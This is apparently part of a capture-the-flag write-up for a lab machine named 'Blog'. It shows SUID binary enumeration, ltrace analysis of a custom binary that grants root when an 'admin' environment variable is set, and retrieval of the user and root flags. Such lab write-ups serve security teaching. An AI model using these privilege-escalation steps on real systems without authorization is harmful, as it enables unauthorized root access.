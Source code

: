 We'll start off searching for applications with an suid set.

``` bash
find / -type f -perm -04000 2>/dev/null

/usr/sbin/checker
```

We find a bit of an odd one in "/usr/sbin/checker", let's run it and see what happens.

``` bash
checker

Not an Admin
```

Not much info there; we'll run it through a program called "ltrace", which runs the command until right before completion, tracing its library calls.


``` bash
ltrace /usr/sbin/checker

getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin)                 = 13
+++ exited (status 0) +++

```

It seems checker checks an environment variable (admin) and if it doesn't exist (returns nil) prints "Not an Admin"

We'll try to set the admin variable to something before running the command again.

``` bash
export admin="kcalb"
checker
```

(You can set admin to anything, the program only checks that it exists.)

``` bash
whoami
root
```
Success! Now that we have root access we'll run another search for the user flag.

``` bash
find / -name user.txt 2>/dev/null
/media/usb/user.txt

cat /media/usb/user.txt
```
That also answers the last question.

> Where was user.txt found?  
> */media/usb*

Lastly, we'll search for and print out the root flag.

``` bash
find / -name root.txt 2>/dev/null
/root/root.txt

cat /root/root.txt
```

## Success!

___

That's it! We've captured both Blog flags!
